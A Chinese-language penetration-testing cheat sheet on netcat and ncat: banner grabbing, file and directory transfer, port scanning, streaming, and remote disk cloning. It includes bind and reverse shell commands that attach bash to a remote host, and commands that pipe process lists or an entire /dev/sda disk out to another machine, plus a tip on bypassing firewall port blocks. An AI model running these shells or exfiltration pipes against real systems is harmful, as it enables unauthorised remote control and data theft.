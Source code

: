 # netcat 基本使用

标签（空格分隔）： 渗透测试

---
### netcat --nc
* 网络工具中的瑞士军刀
* 侦听模式/传输模式
* telnet/ 获取banner信息
* 传输文本信息
* 传输文件/目录
* 加密传输文件
* 远程控制/木马
* 加密所有流量
* 流媒体服务器
* 远程克隆硬盘


### nc--telnet /banner
* nc -nv 123.125.50.29 110
* nc -nv 1.1.1.1 25
* nc -nv 1.1.1.1 80

### nc 传输文本文件
* nc -lp 4444           服务端
* nc -nv 1.1.1.1 4444   客户端
##### 远程电子取证信息收集
* ps aux |  nc -nv 1.1.1.1 4444 -q 1
* nc -lp 4444 > ps.txt

### nc 传输文件/目录
1. 传输文件
 * A: nc -lp 4444 > 1.mp4
 * B: nc -nv 1.1.1.1 444 < 1.mp4 -q 1
 * 或者
 * A: nc -q 1 -lp 4444 < 1.mp4
 * B: nc -nv 1.1.1.1 4444 > 1.mp4
    (ps:反向传输可以用于绕过 服务器防火墙禁止端口访问)
2. 传输目录
 * A: tar -cvf - music/ | nc -lp 4444 -q 1
 * B: nc -nv 1.1.1.1 4444 | tar -xvf -
3. 加密传文件
 * A: nc -lp 4444 | mcrypt --flush -Fbqd -a rijndael-256 -m ecb > 1.mp4
 * B: crypt --flush -Fbq -a rijndael-256 -m ecb < 1.mp4 | nc -nv 1.1.1.1 4444 -q 1

### nc 流媒体服务
* A: cat 1.mp4 | nc -lp 4444
* B: nc -nv 1.1.1.1 4444 | mplayer -vo x11 -cache 3000

### nc 端口扫描
* nc -nvz 1.1.1.1 1-65535
* nc -nvzu 1.1.1.1 1-1024

### nc 远程克隆硬盘
* nc -lp 4444 | dd of=/dev/sda
* nc dd if=/dev/sda | nc -nv 1.1.1.1 4444 -q 1
* 可以复制目标服务器硬盘 或者 内存

### nc 远程控制
* 正向
 * A: nc -lp 4444 -c bash
 * B: nc 1.1.1.1 4444
* 反向
 * A: nc -lp 4444
 * B: nc 1.1.1.1 4444 -c bash
* ps: windows 用户将bash 改为 cmd


### ncat
* nc缺乏加密和身份验证的能力
* ncat 包含在nmap 工具包中
* ncat -c bash -allow 1.1.1.1 -vnl 333 --ssl
* ncat -nv 1.1.1.1 333 --ssl

 




